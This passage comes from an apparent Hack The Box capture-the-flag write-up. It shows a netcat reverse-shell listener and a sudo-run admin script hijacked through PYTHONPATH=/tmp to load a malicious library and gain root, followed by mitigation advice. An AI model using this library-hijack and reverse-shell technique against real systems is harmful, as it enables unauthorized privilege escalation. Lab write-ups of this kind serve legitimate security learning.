 ```bash
$ nc -lvnp 4444
```

Now, let's run the `admin_tasks.sh` script using `sudo`, but this time, we will define our own path using the `PYTHONPATH` variable.

```bash
$ sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh
[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
```

Choosing option 6 will run the python script, importing our malicious library, and executing our function. Our reverse shell connects, and we have successfully executed our privileges. Let's grab the root flag.

![](/assets/img/posts/htb/05-2020-2/root-flag.png)

***

## Mitigation

- A web administrator should know that the `robots.txt` file only works to prevent benevolent bots, like web crawlers, and doesn't prevent humans or bad bots from seeing directories. Actually, this file is a great way to enumerate hidden directories. This paired with plaintext credentials that are available publicly are a recipe for disaster.

- Avoid keeping management software public facing. If it needs to be publicly available, an administrator should strive to keep it up to date, as a vulnerability poses significant risk.

- Special caution should be taken when a user can run certain commands with escalated privileges. This risk is especially amplified when a user can run a command that executes a python script in this manner. Preventing the paths that Python uses to search for libraries from being writable may help mitigate the risks associated with this.

## Final Thoughts

